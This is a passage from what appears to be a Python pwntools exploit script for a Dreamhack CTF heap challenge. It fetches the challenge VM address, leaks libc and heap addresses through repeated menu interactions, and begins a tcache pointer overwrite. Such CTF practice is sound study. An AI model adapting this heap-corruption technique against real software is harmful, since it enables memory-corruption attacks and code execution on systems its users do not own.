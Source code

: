 ```python
    p.sendlineafter(b'>> ', b'4')
    p.sendlineafter(b'key >> ', str(key).encode())

def viewall():
    if LOGGING:log.info(f"viewall()")
    p.sendlineafter(b'>> ', b'5')

while 1:
    try:
        LOGGING= False
        if REMOTE:
            pause()
            x = requests.get("https://dreamhack.io/api/v1/ctf/ctfs/24/challenges/177/vms/", cookies="""내 쿠키""").json()[0] # 빠르게 주소를 가져오기 위한 코드 ㅎㅎ;;

            host = x['host']
            port = x['port_mappings'][0][1]

            print(host, port)
            p = remote(host, port)
            LOGGING = True

        # if REMOTE:p = remote('192.168.2.1',13100)
        else:p = e.process(aslr=True)

        for i in range(7):
            insert(i + 0x60, str(i+1).encode(),0x60)
        for i in range(7):
            delete(i + 0x60)

        insert(0x70, b'DEADBEEF',0x420)
        insert(0xD0, 0xcafebabe)

        viewall()
        libc.address = base = int(p.recvuntil(b'1. Insert item',drop=True).splitlines()[6].split()[0]) - 0x3ebcb0
        log.success(f'LIBC: {hex(base)}')

        viewall()
        if REMOTE:heap = int(p.recvuntil(b'1. Insert item',drop=True).splitlines()[2].split()[0]) - 21088
        else:heap = int(p.recvuntil(b'1. Insert item',drop=True).splitlines()[2].split()[0]) - 21344
        log.success(f'HEAP: {hex(heap)}')

        target = 0x5468 + heap
        if REMOTE:target-=0x100
        print(target)

        viewall()
        victim = 0x70
        print(hex(victim))

        print(p64(target))

        if any(i>=0x80 for i in p64(target)):
            p.sendlineafter(b'>> ',b'6')
            assert 0
            
        pause()
        LOGGING = True
        update(victim, b'\x60'*8+p64(target), 0)

```